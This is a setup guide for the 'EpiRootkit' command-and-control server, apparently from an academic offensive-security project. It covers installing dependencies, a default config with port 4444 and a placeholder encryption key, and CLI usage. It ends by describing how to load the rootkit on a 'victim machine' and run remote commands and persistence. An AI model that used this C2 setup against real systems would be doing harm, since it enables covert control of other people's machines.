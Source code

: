 ```yaml
---
title: "Installation"
description: "Step-by-step installation and setup guide"
icon: "download"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 302
---
```


# Installation Guide

Complete setup instructions for the EpiRootkit C2 server.

## Prerequisites


### Verify Prerequisites
```bash
# Check Node.js version
node --version

# Check pnpm installation
pnpm --version

# Install pnpm if not available
npm install -g pnpm
```

## Installation Steps

### 1. Navigate to Project Directory
```bash
cd attacking_program
```

### 2. Install Dependencies
```bash
# Using pnpm (recommended)
pnpm install

# Or using npm
npm install
```


## Configuration

### 1. Review Configuration File
```bash
cat config.env
```

**Default Configuration:**
```bash
# EpiRootkit C2 Server Configuration
C2_PORT=4444
WEB_PORT=3000

# Authentication Configuration
PASSWORD_HASH=b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86

# Encryption Configuration
ENCRYPTION_KEY=0123456789abcdef0123456789abcdef
ENABLE_ENCRYPTION=true
```


## First Run

### 1. Start the C2 Server
```bash
pnpm start
```

**Expected Output:**
```
┌─ C2 Server Interface • Initializing...
└─ Initializing...

┌─ Setup
  • [2025-05-25 16:00:00] Config: C2_PORT=4444, WEB_PORT=3000
└─

┌─ Server Status
  • [2025-05-25 16:00:00] Server started on port 4444
└─

  • Web interface started on port 3000

c2-server$ 
```


### 3. Test CLI Interface
```bash
# In the C2 server prompt
c2-server$ help

# List clients (should be empty initially)
c2-server$ ls
# No clients connected
```


## Next Steps

1. **Connect a Rootkit**: Load the EpiRootkit module on a victim machine
2. **Authenticate**: Use `auth Client-1 password` to establish secure connection
3. **Execute Commands**: Start with `exec Client-1 whoami` to test functionality
4. **Explore Features**: Try file operations, persistence management, and configuration
